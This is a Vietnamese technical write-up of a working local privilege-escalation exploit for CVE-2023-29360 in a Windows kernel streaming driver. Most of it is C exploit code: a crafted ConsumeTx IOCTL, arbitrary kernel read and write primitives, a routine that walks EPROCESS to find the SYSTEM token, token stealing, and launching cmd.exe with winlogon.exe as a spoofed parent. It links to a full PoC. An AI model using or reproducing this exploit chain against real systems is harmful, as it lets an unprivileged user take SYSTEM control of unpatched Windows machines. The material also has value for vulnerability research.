BOOL ConsumeTx(HANDLE TargetHandle, PVOID *MappedVA)
{
    struct TxInfo *TxInfo = malloc(sizeof(struct TxInfo));
    struct TxInfo *Buffer = malloc(sizeof(struct TxInfo));

    if (!TxInfo || !Buffer) 
    {
        free(TxInfo);
        free(Buffer);
        return FALSE;
    }

    memset(TxInfo, 0, sizeof(struct TxInfo));
    memset(Buffer, 0, sizeof(struct TxInfo));

    TxInfo->FrameCount = 300;
    TxInfo->FilledFrameCount = 0;
    TxInfo->FrameEntries[0].Size1 = 0x100;
    TxInfo->FrameEntries[0].Size2 = 0x100;

    BOOL Result = SendToDriver(
        TargetHandle,
        IOCTL_CONSUME_STREAM,
        TxInfo,
        sizeof(struct TxInfo),
        Buffer,
        sizeof(struct TxInfo)
    );

    if (Result) 
    {
        // printf("[+] Successfully sent IOCTL_CONSUME_STREAM.\n");
        *MappedVA = *(PVOID *)((BYTE *)Buffer + 0x48);
    }

    free(TxInfo);
    free(Buffer);
    return Result && *MappedVA != NULL;
}
```

### Reversing ConsumeTx
---

Từ `FSRendezvousServer::ConsumeTx` :
    
  ```c
  NTSTATUS __fastcall FSRendezvousServer::ConsumeTx(FSGlobalRendezvousServer *this, struct _IRP *CurIRP)
  {
    struct _IO_STACK_LOCATION *CurrentStackLocation; // rbx
    NTSTATUS v5; // ebx
    PublishInfo *SystemBuffer; // rdi
    unsigned __int64 Length; // r8
    DWORD FrameCount; // ecx
    const struct FSRegObject *FsContext2; // r14
    char Object; // bl
    DWORD FilledFrameCount; // eax
  
    CurrentStackLocation = CurIRP->Tail.Overlay.CurrentStackLocation;
    if ( !CurrentStackLocation->FileObject->FsContext2 )
      return STATUS_INVALID_DEVICE_REQUEST;
    SystemBuffer = CurIRP->AssociatedIrp.MasterIrp;
    if ( !SystemBuffer )
      return STATUS_INVALID_PARAMETER;
    Length = CurrentStackLocation->Parameters.Read.Length;
    if ( Length < 0xB0 )
      return STATUS_INVALID_PARAMETER;
    if ( Length != CurrentStackLocation->Parameters.Create.Options )
      return STATUS_INVALID_PARAMETER;
    FrameCount = SystemBuffer->FrameCount;
    if ( FrameCount - 1 > 0x12B || SystemBuffer->FilledFrameCount > FrameCount || Length < 0x88 * (FrameCount - 1) + 0xB0 )
      return STATUS_INVALID_PARAMETER;
    SystemBuffer->FilledFrameCount = 0;
    FSRendezvousServer::Lock(this);
    FsContext2 = CurrentStackLocation->FileObject->FsContext2;
    Object = FSRendezvousServer::FindObject(this, FsContext2);
    KeReleaseMutex(&this->offset0x8, 0);
    if ( !Object )
      return STATUS_INVALID_DEVICE_REQUEST;
    (*(*FsContext2 + 40LL))(FsContext2);
    FSStreamReg::ConsumeTx(FsContext2, SystemBuffer);
    if ( SystemBuffer != -8LL )
      FSStreamReg::GetStats(FsContext2, &SystemBuffer->offset0x8);
    v5 = SystemBuffer->FilledFrameCount == 0 ? 0x8000001A : 0;
    (*(*FsContext2 + 48LL))(FsContext2);
    FilledFrameCount = SystemBuffer->FilledFrameCount;
    if ( FilledFrameCount )
      CurIRP->IoStatus.Information = 136LL * (FilledFrameCount - 1) + 0xB0;
    else
      CurIRP->IoStatus.Information = 0xB0;
    return v5;
  }
  ```
    

Đầu tiên hàm thực hiện các thao tác kiểm tra cần thiết như `FsContext2` và `SystemBuffer` do ta truyền xuống (cần đảm bảo khác NULL và đảm bảo `Frame Count` hợp lệ), sau đó tiến hành gọi hàm con `FSStreamReg::ConsumeTx` 


  ```c
  // Reverse note: consumes pending TX FSFrameMdl nodes into the caller output buffer, maps/duplicates per-frame resources, and requeues the first unconsumed node when needed.
  NTSTATUS __fastcall FSStreamReg::ConsumeTx(FSStreamReg *this, PublishInfo *frameInfo)
  {
    NTSTATUS status; // r15d
    ULONG64 *pendingTxListHead; // r14
    struct _LIST_ENTRY *removedListEntry; // rax
    void *frameGroupKey; // r9
    void *unsetFrameGroupKey; // r10
    void *frameMdl; // rbx
    __int64 outputIndex; // rax
    ULONG64 sourceProcess; // r10
    char *outFrame; // r13
    ULONG64 targetProcess; // r8
    unsigned __int64 frameFlags; // rcx
    NTSTATUS callStatus; // eax
    struct _MDL *secondaryMdl; // rcx
    void *listHeadWhenFull; // rdx
    void *firstNodeWhenFull; // rax
    void *cachedFirstWhenFull; // rcx
    char bufferFilled; // cl
    void *listHeadForRequeue; // rdx
    ULONG64 firstNodeForRequeue; // rax
    void *cachedFirstForRequeue; // rcx
    int outputFlags; // eax
    int previousMode; // [rsp+38h] [rbp-40h]
  
    status = 0;
    if ( !frameInfo || !frameInfo->FrameCount )
      return STATUS_INVALID_PARAMETER;
    frameInfo->FilledFrameCount = 0;
    pendingTxListHead = &this->offset0x100;
    if ( *pendingTxListHead == pendingTxListHead )
      goto LABEL_50;
    while ( 1 )
    {
      removedListEntry = FSList::RemoveHead(&this->FsList);
      frameMdl = removedListEntry;
      if ( removedListEntry )
        this->offset0x128 -= HIDWORD(removedListEntry[4].Blink);
      if ( frameGroupKey == unsetFrameGroupKey )
        frameGroupKey = removedListEntry[1].Blink;
      if ( frameGroupKey != removedListEntry[1].Blink )
        break;
      outputIndex = frameInfo->FilledFrameCount;
      if ( outputIndex >= frameInfo->FrameCount )
      {
        listHeadWhenFull = &this->offset0x100;
        firstNodeWhenFull = this->offset0x100;
        if ( *(firstNodeWhenFull + 1) == &this->offset0x100 )
        {
          *frameMdl = firstNodeWhenFull;
          *(frameMdl + 1) = listHeadWhenFull;
          *(firstNodeWhenFull + 1) = frameMdl;
          *listHeadWhenFull = frameMdl;
          ++LODWORD(this->offset0x118);
          if ( !this->offset0x110 )
          {
            cachedFirstWhenFull = 0;
            if ( *listHeadWhenFull != listHeadWhenFull )
              cachedFirstWhenFull = *listHeadWhenFull;
            this->offset0x110 = cachedFirstWhenFull;
          }
          bufferFilled = 1;
          this->offset0x128 += *(frameMdl + 19);
          goto LABEL_47;
        }
  LABEL_40:
        __fastfail(3u);
      }
      sourceProcess = this->InitProcess;
      outFrame = frameInfo + 0x88 * outputIndex;
      if ( !sourceProcess || (targetProcess = this->RegProcess) == 0 )
      {
        callStatus = STATUS_INVALID_PARAMETER;
  LABEL_20:
        status = callStatus;
  LABEL_52:
        if ( frameMdl )
        {
          FSFrameMdl::~FSFrameMdl(frameMdl);
          operator delete(frameMdl);
        }
        return status;
      }
      *(outFrame + 40) = *(frameMdl + 0x18);
      *(outFrame + 56) = *(frameMdl + 0x28);
      *(outFrame + 72) = *(frameMdl + 0x38);
      *(outFrame + 88) = *(frameMdl + 0x48);
      *(outFrame + 104) = *(frameMdl + 0x58);
      *(outFrame + 120) = *(frameMdl + 0x68);
      *(outFrame + 136) = *(frameMdl + 0x78);
      *(outFrame + 152) = *(frameMdl + 0x88);
      *(outFrame + 21) = *(frameMdl + 0x13);
      frameFlags = *(frameMdl + 0xC);
      if ( frameFlags == 1 )
        goto LABEL_26;
      if ( frameFlags != 4 && frameFlags != 8 )
      {
        if ( frameFlags == 16 )
        {
          LOBYTE(previousMode) = 1;
          callStatus = ObDuplicateObject(
                          sourceProcess,
                          *(frameMdl + 24),
                          targetProcess,
                          outFrame + 72,
                          ((frameFlags & 0x1000000000000000LL) != 0) | 0x20000u,
                          0,
                          4,
                          previousMode);
          if ( callStatus < 0 )
            goto LABEL_20;
          *(frameMdl + 25) = *(outFrame + 9);
        }
        else if ( frameFlags != 32 && frameFlags != 64 )
        {
          callStatus = 0xC000000D;
          goto LABEL_20;
        }
        goto LABEL_26;
      }
      if ( *(frameMdl + 19) )
      {
        callStatus = FsMapLockedPages(*(frameMdl + 20), ~(frameFlags >> 29) & 0x80000000 | 0x40000010, frameMdl + 21);
        if ( callStatus < 0 )
          goto LABEL_20;
        *(outFrame + 9) = *(frameMdl + 21);
  LABEL_26:
        secondaryMdl = *(frameMdl + 22);
        if ( secondaryMdl )
        {
          callStatus = FsMapLockedPages(secondaryMdl, 0xC0000010, frameMdl + 23);
          if ( callStatus < 0 )
            goto LABEL_20;
          *(outFrame + 12) = *(frameMdl + 23);
        }
        *(frameMdl + 4) = 1;
      }
      FSFrameMdlList::InsertTail(&this->offset0x130, frameMdl);
      ++frameInfo->FilledFrameCount;
      if ( *pendingTxListHead == pendingTxListHead )
        goto LABEL_46;
    }
    listHeadForRequeue = &this->offset0x100;
    firstNodeForRequeue = this->offset0x100;
    if ( *(firstNodeForRequeue + 8) != &this->offset0x100 )
      goto LABEL_40;
    *frameMdl = firstNodeForRequeue;
    *(frameMdl + 1) = listHeadForRequeue;
    *(firstNodeForRequeue + 8) = frameMdl;
    *listHeadForRequeue = frameMdl;
    ++LODWORD(this->offset0x118);
    if ( !this->offset0x110 )
    {
      cachedFirstForRequeue = 0;
      if ( *listHeadForRequeue != listHeadForRequeue )
        cachedFirstForRequeue = *listHeadForRequeue;
      this->offset0x110 = cachedFirstForRequeue;
    }
    this->offset0x128 += *(frameMdl + 19);
  LABEL_46:
    bufferFilled = 0;
  LABEL_47:
    if ( *pendingTxListHead != pendingTxListHead )
    {
      outputFlags = HIDWORD(frameInfo->offset0x0) | 0x10000;
      HIDWORD(frameInfo->offset0x0) = outputFlags;
      if ( bufferFilled )
        HIDWORD(frameInfo->offset0x0) = outputFlags | 0x20000;
    }
  LABEL_50:
    if ( s_fsTraceEnable )
    {
      DbgPrintEx(
        0x1Du,
        3u,
        "ConsumeTx() stats[txsize:%I64d,rxsize:%I64d,txcount:%d,rxcount:%d]\n",
        this->offset0x128,
        this->offset0x1a0,
        LODWORD(this->offset0x118),
        LODWORD(this->offset0x190));
      frameMdl = 0;
      goto LABEL_52;
    }
    return status;
  }
  ```
    

Đầu tiên, hàm thực hiện các kiểm tra đối với `FrameCount` và `FrameInfo` , sau đó, nó tiến hành lặp qua danh sách các struct `StreamObject` trong hàng chờ xử lý. Với mỗi struct nó sẽ kiểm tra các giá trị `Key` và thực hiện thao tác consume các Frame đối với `StreamObject` .
    
  ```c
  while ( 1 )
    {
      removedListEntry = FSList::RemoveHead(&this->FsList);
      frameMdl = removedListEntry;
      if ( removedListEntry )
        this->offset0x128 -= HIDWORD(removedListEntry[4].Blink);
      if ( frameGroupKey == unsetFrameGroupKey )
        frameGroupKey = removedListEntry[1].Blink;
      if ( frameGroupKey != removedListEntry[1].Blink )
        break;
      outputIndex = frameInfo->FilledFrameCount;
  // ...
  ```
    

Tiếp đến nó tiến hành thiết lập các metadata cho outpt buffer và tiến hành xử lý các Frame theo Frame flag:

| `1` | Không map/duplicate chính, chỉ xử lý tiếp secondary nếu có |
| --- | --- |
| `4` / `8` | Map primary MDL bằng `FsMapLockedPages()` |
| `16` | Duplicate object handle bằng `ObDuplicateObject()` |
| `32` / `64` | Loại hợp lệ, nhưng không đi qua nhánh map primary |
| Khác | `STATUS_INVALID_PARAMETER` |

Với điều đó, ta cần set `Frameflag` có giá trị là `4` hoặc `8` thì khi đó nhánh này được gọi:

    
  ```c
  if (*(frameMdl + 19))
  {
      callStatus = FsMapLockedPages(
          *(frameMdl + 20),
          ~(frameFlags >> 29) & 0x80000000 | 0x40000010,
          frameMdl + 21
      );
  
      if (callStatus < 0)
          return callStatus;
  
      *(outFrame + 9) = *(frameMdl + 21);
  }
  ```
    

Tại đây hàm `FsMapLockedPages` được gọi để map `Usermode VA` vào các Frame mà ta đã lock trên RAM. Nhưng trước hết ta cần chú ý tham số thứ 2 được truyền vào là `Priority` dành cho `Usermode VA` . 

Ta có bảng giá trị `Priority` :

| `0x00000010`  | NormalPagePriority |
| --- | --- |
| `0x40000000` | MdlMappingNoExecute |
| `0x80000000` | MdlMappingNoWrite |

Ta cần đảm bảo quyền `Read/Write` đầy đủ cho VA này với giá trị flag cần đảm bảo là `0x40000010 = MdlMappingNoExecute | NormalPagePriority` 

Với 2 điều kiện về `FrameFlag` trên, giá trị ta cần set là : `0x1000000000000004` và ta cầm phải set nó trong bước `PublishTx` với `Tx->FrameEntries[0].Mdl_Type = 0x1000000000000004ULL;` và ở bước nay ta chỉ việc truyền xuống `FrameCount` và `MapSize` (cần đảm bảo không lố kích thước một Page vì có thể gây PageFault)

Vậy là xong thao tác `ConsumeTx` .
		

## Step 5: Read/Write Primitive

Để có được quyền đọc tùy ý, ta cần xem lại ý tưởng ban đầu ở phần [Deep dive into CVE 2023-29360](#deep-dive-into-cve-2023-29360) . Dựa vào đó, ta thấy rằng với bug ở `PublishTx→…->FsAllocAndLockMdl` là hàm phụ trách cấp phát `MDL` map một địa chỉ ảo `SrcVA` chứa các Frame vào các Page vật lý để sau đó, khi cần lấy các Frame đó thì chỉ cần gọi đến `ConsumeTx->...->FsMapLockedPages` để map một địa chỉ ảo khác `DstVA` thuộc User-mode vào cùng struct `MDL` đang ánh xạ đến các Page vật lý chứa dữ liệu frame đã map trước đó rồi sau đó thực hiện lấy các Frame chỉ qua việc đọc từ địa chỉ ảo đó ra.

Dựa vào ý tưởng, ta có hàm `Read/WritePrimitive` như sau:

```c
BOOL ReadPrimitive(PVOID TargetAddress, PVOID OutputPtr, DWORD Size)
{
    PVOID MappedVA = NULL;
    HANDLE PubHandle = GetDriverHandle();
    HANDLE ConHandle = GetDriverHandle();

    if (PubHandle == INVALID_HANDLE_VALUE || ConHandle == INVALID_HANDLE_VALUE)
        return FALSE;
    PKey Key = KeyGen();
    BOOL Check =
        InitializeStream(PubHandle, Key) &&
        PublishTx(PubHandle, TargetAddress) &&
        RegisterStream(ConHandle, Key) &&
        ConsumeTx(ConHandle, &MappedVA);

    if (Check) 
    {
        memcpy(OutputPtr, MappedVA, Size);
    }

    CloseHandle(PubHandle);
    CloseHandle(ConHandle);
    return Check;
}

BOOL WritePrimitive(PVOID TargetAddress, PVOID Value, DWORD Size)
{
    PVOID MappedVA = NULL;
    HANDLE PubHandle = GetDriverHandle();
    HANDLE ConHandle = GetDriverHandle();

    if (PubHandle == INVALID_HANDLE_VALUE || ConHandle == INVALID_HANDLE_VALUE)
        return FALSE;

    PKey Key = KeyGen();
    BOOL Check =
        InitializeStream(PubHandle, Key) &&
        PublishTx(PubHandle, TargetAddress) &&
        RegisterStream(ConHandle, Key) &&
        ConsumeTx(ConHandle, &MappedVA);

    if (Check)
    {
        printf("[*] WritePrimitive MappedVA = %p\n", MappedVA);
        printf("[*] Before write:\n");
        for (DWORD i = 0; i < Size; i += 8) 
        {
            printf("  +0x%02lx = 0x%016llx\n", i, *(ULONG64 *)((BYTE *)MappedVA + i));
        }

        memcpy(MappedVA, Value, Size);

        printf("[*] After write:\n");
        for (DWORD i = 0; i < Size; i += 8) 
        {
            printf("  +0x%02lx = 0x%016llx\n", i, *(ULONG64 *)((BYTE *)MappedVA + i));
        }
    }

    CloseHandle(PubHandle);
    CloseHandle(ConHandle);
    return Check;
}
```

Ta thử nghiệm với việc đọc địa chỉ `Token` của System Process:

```c
BOOL KernelRead64(PVOID addr, ULONG64 *out)
{
    return ReadPrimitive(addr, out, sizeof(*out));
}

PVOID GetSystemKernelTokenAddress(void)
{
    PVOID CurrentProcessStruct = NULL;

    HANDLE CurrentProcessHandle = OpenProcess(
        PROCESS_QUERY_INFORMATION,
        FALSE,
        GetCurrentProcessId()
    );

    if (!CurrentProcessHandle) 
    {
        printf("[-] Failed to open current process handle: %lu\n", GetLastError());
        return NULL;
    }

    ULONG Length = sizeof(struct _SYSTEM_HANDLE_INFORMATION);
    PVOID LeakBuffer = malloc(Length);
    NTSTATUS Status = -1;

    if (!LeakBuffer) {
        CloseHandle(CurrentProcessHandle);
        return NULL;
    }

    while (!NT_SUCCESS(Status)) 
    {
        Status = NtQuerySystemInformation(
            SystemHandleInformation,
            LeakBuffer,
            Length,
            &Length
        );

        if (!NT_SUCCESS(Status)) 
        {
            PVOID NewBuffer = realloc(LeakBuffer, Length);
            if (!NewBuffer) 
            {
                free(LeakBuffer);
                CloseHandle(CurrentProcessHandle);
                return NULL;
            }
            LeakBuffer = NewBuffer;
        }
    }

    PSYSTEM_HANDLE_INFORMATION CurrentHandleInfo = (PSYSTEM_HANDLE_INFORMATION)LeakBuffer;

    USHORT CurrentHandleValue = (USHORT)(ULONG_PTR)CurrentProcessHandle;
    DWORD CurrentPid = GetCurrentProcessId();

    for (ULONG i = 0; i < CurrentHandleInfo->Count; i++) 
    {
        SYSTEM_HANDLE_ENTRY Entry = CurrentHandleInfo->Handle[i];

        if (Entry.OwnerPid == CurrentPid && Entry.HandleValue == CurrentHandleValue)
        {
            printf("[+] Found current process handle in system handle table.\n");
            printf("[*] Process Handle: 0x%hx\n", Entry.HandleValue);
            printf("[*] Current _EPROCESS: 0x%p\n", Entry.ObjectPointer);
            CurrentProcessStruct = Entry.ObjectPointer;
            break;
        }
    }

    free(LeakBuffer);
    CloseHandle(CurrentProcessHandle);

    if (!CurrentProcessStruct) 
    {
        printf("[-] Failed to leak current _EPROCESS.\n");
        return NULL;
    }

    PVOID StartProcessStruct = CurrentProcessStruct;

    while (TRUE) 
    {
        LIST_ENTRY CurrentProcessListEntry = {0};
        ULONG64 CurrentUniqueProcessId = 0;

        if (!KernelRead64(
                (PBYTE)CurrentProcessStruct + EPROCESS_PID_OFFSET,
                &CurrentUniqueProcessId))
        {
            return NULL;
        }

        if (CurrentUniqueProcessId == SYSTEM_PID) 
        {
            printf("[+] Found SYSTEM _EPROCESS at: 0x%p\n", CurrentProcessStruct);
            break;
        }

        if (!ReadPrimitive(
                (PBYTE)CurrentProcessStruct + EPROCESS_LINK_OFFSET,
                &CurrentProcessListEntry,
                sizeof(CurrentProcessListEntry)))
        {
            return NULL;
        }

        CurrentProcessStruct =
            (PVOID)((ULONG64)CurrentProcessListEntry.Flink - EPROCESS_LINK_OFFSET);

        if (CurrentProcessStruct == StartProcessStruct)
        {
            printf("[-] Reached list start again; SYSTEM not found.\n");
            return NULL;
        }
    }

    ULONG64 SystemTokenFastRef = 0;

    if (!KernelRead64(
            (PBYTE)CurrentProcessStruct + EPROCESS_TOKEN_OFFSET,
            &SystemTokenFastRef))
    {
        return NULL;
    }

    PVOID SystemTokenObject = (PVOID)(SystemTokenFastRef & ~0xFULL);
    printf("[+] SYSTEM token object: 0x%p\n", SystemTokenObject);

    return (PBYTE)SystemTokenObject + 0x40; // _TOKEN.Privileges
}
```

Kết quả:


## Step 6: Privilege Escalation

Với quyền Read/Write Primitive, giờ đây ta hoàn toàn có thể thực hiện các thao tác leo quyền tiến trình. Tại đây, ta sẽ thực hiện một workflow leo quyền đặc trưng là :

1. Thực hiện Token Stealing, ghi đè giá trị Token của Process hiện tại thành giá trị Token giống với System.
2. Mở handle đến tiến trình `Winlogon.exe` .
3. Thực hiện spawn `cmd.exe` với handle của `winlogon` .

Ta có hàm thực hiện spawn process gián tiếp dựa vào handle của một tiến trình khác:

    
  ```c
  DWORD GetPidByName(const char *ProcessName)
  {
      DWORD Pid = 0;
  
      HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
      if (Snap == INVALID_HANDLE_VALUE)
          return 0;
  
      PROCESSENTRY32 ProcessEntry;
      ZeroMemory(&ProcessEntry, sizeof(ProcessEntry));
      ProcessEntry.dwSize = sizeof(ProcessEntry);
  
      if (Process32First(Snap, &ProcessEntry)) 
      {
          do 
          {
              if (_stricmp(ProcessEntry.szExeFile, ProcessName) == 0) 
              {
                  Pid = ProcessEntry.th32ProcessID;
                  break;
              }
          } 
          while (Process32Next(Snap, &ProcessEntry));
      }
  
      CloseHandle(Snap);
      return Pid;
  }
  
  BOOL SpawnProcessOnSpecificHandle(HANDLE ParentHandle, LPCWSTR CommandLine)
  {
      BOOL Check = FALSE;
      SIZE_T AttrSize = 0;
      LPPROC_THREAD_ATTRIBUTE_LIST AttrList = NULL;
      STARTUPINFOEXW Si;
      PROCESS_INFORMATION Pi;
  
      ZeroMemory(&Si, sizeof(Si));
      ZeroMemory(&Pi, sizeof(Pi));
      Si.StartupInfo.cb = sizeof(Si);
  
      InitializeProcThreadAttributeList(NULL, 1, 0, &AttrSize);
  
      AttrList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
          GetProcessHeap(),
          HEAP_ZERO_MEMORY,
          AttrSize
      );
  
      if (!AttrList) 
      {
          printf("[-] HeapAlloc failed\n");
          return FALSE;
      }
  
      if (!InitializeProcThreadAttributeList(AttrList, 1, 0, &AttrSize)) 
      {
          printf("[-] InitializeProcThreadAttributeList failed: %lu\n", GetLastError());
          HeapFree(GetProcessHeap(), 0, AttrList);
          return FALSE;
      }
  
      if (!UpdateProcThreadAttribute(
              AttrList,
              0,
              PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
              &ParentHandle,
              sizeof(ParentHandle),
              NULL,
              NULL))
      {
          printf("[-] UpdateProcThreadAttribute failed: %lu\n", GetLastError());
          DeleteProcThreadAttributeList(AttrList);
          HeapFree(GetProcessHeap(), 0, AttrList);
          return FALSE;
      }
  
      Si.lpAttributeList = AttrList;
  
      WCHAR cmdLine[MAX_PATH * 2];
      wcscpy_s(cmdLine, _countof(cmdLine), CommandLine);
  
      Check = CreateProcessW(
          NULL,
          cmdLine,
          NULL,
          NULL,
          FALSE,
          EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
          NULL,
          NULL,
          &Si.StartupInfo,
          &Pi
      );
  
      if (!Check) 
      {
          printf("[-] CreateProcessW failed: %lu\n", GetLastError());
      } 
      else 
      {
          printf("[+] Spawned PID: %lu\n", Pi.dwProcessId);
          CloseHandle(Pi.hThread);
          CloseHandle(Pi.hProcess);
      }
  
      DeleteProcThreadAttributeList(AttrList);
      HeapFree(GetProcessHeap(), 0, AttrList);
      return Check;
  ```
    

Giải thích ý tưởng: Sau khi đã có handle đến một Process khác, hàm sẽ thực hiện spawn ra một Process mới theo yêu cầu từ tham số `CommandLine` . 

Theo đúng flow thì Process mới được spawn sẽ nhận tiến trình hiện tại (PoC của ta) làm tiến trình cha, và nó sẽ kế thừa các phân quyền và một số internal context của tiến trình hiện tại, dẫn đến việc mặc dù tiến trình mới có đủ quyền hạn nhưng không hề khớp context (điều này liên quan đến `Windows Isolate Context`) .

Kết quả context không hợp lệ:


Để tiến trình mới sinh ra hợp lệ nhất thì ta sẽ sinh nó ra và tiến hành điều chỉnh các thông số để nó nhận tiến trình với `ParentHandle` là tiến trình cha có quyền hạn và context hợp lệ. Từ đó tiến trình mới sinh ra sẽ hợp lệ hoàn toàn và không bị giới hạn quyền hạn.

Kết quả khi điều chỉnh tiến trình cha:


## Full PoC

https://github.com/HiuHiuByRice/Windows/tree/main/CVE_2023_29360
